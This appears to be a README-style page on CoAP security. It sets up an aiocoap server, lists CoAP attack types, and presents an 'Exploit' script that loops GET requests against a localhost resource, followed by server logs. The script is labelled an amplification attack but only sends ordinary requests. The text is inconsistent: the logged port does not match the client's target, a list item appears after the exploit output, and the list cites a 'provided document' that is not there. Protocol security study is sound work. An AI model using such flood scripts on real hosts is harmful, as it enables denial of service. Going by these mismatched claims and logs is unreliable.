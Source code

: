 # Constrained Application Protocol (CoAP) 

## Installation
To install a CoAP (Constrained Application Protocol) server with logging enabled, Here are general steps for setting up a CoAP server using a popular library in Python called aiocoap, which is an asynchronous CoAP framework:

## Prerequisites
+ Python 3.7 or higher
+ pip (Python package installer)

## CoAP Server Installation
```python
import aiocoap.resource as resource
import aiocoap
import asyncio
import logging

logging.basicConfig(level=logging.DEBUG, format='%(asctime)s %(levelname)s:%(message)s')

class BasicResource(resource.Resource):
    async def render_get(self, request):
        logging.info("Received a GET request")
        return aiocoap.Message(payload=b"Hello World!")

root = resource.Site()
root.add_resource(['hello'], BasicResource())

async def main():
    protocol = await aiocoap.Context.create_server_context(root)
    logging.info("Server Started")
    await asyncio.get_running_loop().create_future()

if __name__ == "__main__":
    asyncio.run(main())
```
## Output
```bash
2024-04-22 10:33:11,725 DEBUG:Using selector: EpollSelector
2024-04-22 10:33:11,790 INFO:server listening on [::]:8683
2024-04-22 10:33:11,790 INFO:server listening on 0.0.0.0:8683
2024-04-22 10:33:11,794 DEBUG:Server ready to receive requests
2024-04-22 10:33:11,794 INFO:Server Started
```
# Attacks
For the Constrained Application Protocol (CoAP), various types of attacks are identified, as detailed in the provided document. Here's a list of attacks on the CoAP protocol:

1. **Regular Expression Denial of Service (ReDoS)**: This attack exploits inefficiencies in regular expression processing algorithms to create service denials.
   
2. **IP Address Spoofing**: This involves altering the sending IP address within UDP packets to impersonate another device or service.
   
3. **Replay Attacks**: This type of attack captures legitimate messages and resends them to perform unauthorized operations .
   
4. **Relay Attacks**: These attacks involve capturing and retransmitting messages in real-time, which can be used to bypass authentication mechanisms .
   
5. **Injection Attacks**: These occur by intercepting a TCP communication to inject malicious TCP segments into legitimate packets, carrying modified CoAP messages that interfere with server operations .
   
6. **CoAP Amplification DoS Attack**: Attackers send multiple CoAP GET requests to create large responses from small requests, thereby straining network resources and amplifying traffic .

## Exploit
```python
import asyncio
from aiocoap import *

async def main():
    context = await Context.create_client_context()
    for _ in range(100):
        request = Message(code=GET, uri="coap://127.0.0.1/amplifiable_resource")
        try:
            response = await context.request(request).response
            print('Result: %s\n%r' % (response.code, response.payload))
        except Exception as e:
            print('Failed to fetch resource:')
            print(e)
        await asyncio.sleep(1)

if __name__ == "__main__":
    asyncio.get_event_loop().run_until_complete(main())
```
## Output
```bash
2024-04-22 10:33:11,794 INFO:Server Started
2024-04-22 10:33:14,877 DEBUG:Incoming message <aiocoap.Message at 0x7f14ac3e5d10: CON GET (MID 49663, token 492f) remote <UDP6EndpointAddress 127.0.0.1:51724 (locally 127.0.0.1%lo)>, 1 option(s)>
2024-04-22 10:33:14,878 DEBUG:New unique message received
2024-04-22 10:33:14,878 INFO:Render request raised a renderable error (NotFound()), responding accordingly.
2024-04-22 10:33:14,878 DEBUG:Sending message <aiocoap.Message at 0x7f14ac02cd90: ACK 4.04 Not Found (MID 49663, token 492f) remote <UDP6EndpointAddress 127.0.0.1:51724 (locally 127.0.0.1%lo)>>
2024-04-22 10:39:40,034 DEBUG:Incoming message <aiocoap.Message at 0x7f14ac02cd90: CON GET (MID 44823, token 7d39) remote <UDP6EndpointAddress 127.0.0.1:49525 (locally 127.0.0.1%lo)>, 1 option(s)>
2024-04-22 10:39:40,034 DEBUG:New unique message received
2024-04-22 10:39:40,035 INFO:Render request raised a renderable error (NotFound()), responding accordingly.
2024-04-22 10:39:40,035 DEBUG:Sending message <aiocoap.Message at 0x7f14ac02d110: ACK 4.04 Not Found (MID 44823, token 7d39) remote <UDP6EndpointAddress 127.0.0.1:49525 (locally 127.0.0.1%lo)>>
2024-04-22 10:39:41,038 DEBUG:Incoming message <aiocoap.Message at 0x7f14ac02d1d0: CON GET (MID 44824, token 7d3a) remote <UDP6EndpointAddress 127.0.0.1:49525 (locally 127.0.0.1%lo)>, 1 option(s)>
2024-04-22 10:39:41,038 DEBUG:New unique message received
2024-04-22 10:39:41,038 INFO:Render request raised a renderable error (NotFound()), responding accordingly.
2024-04-22 10:39:41,038 DEBUG:Sending message <aiocoap.Message at 0x7f14ac02d650: ACK 4.04 Not Found (MID 44824, token 7d3a) remote <UDP6EndpointAddress 127.0.0.1:49525 (locally 127.0.0.1%lo)>>
2024-04-22 10:39:42,041 DEBUG:Incoming message <aiocoap.Message at 0x7f14ac02d290: CON GET (MID 44825, token 7d3b) remote <UDP6EndpointAddress 127.0.0.1:49525 (locally 127.0.0.1%lo)>, 1 option(s)>
2024-04-22 10:39:42,041 DEBUG:New unique message received
```
7. **Reflective Denial of Service (DoS)**: Employing legitimate requests to third-party servers that are then amplified and reflected back to the victim .

These attacks exploit various aspects of the CoAP protocol and its implementations, highlighting the importance of robust security measures to mitigate these threats.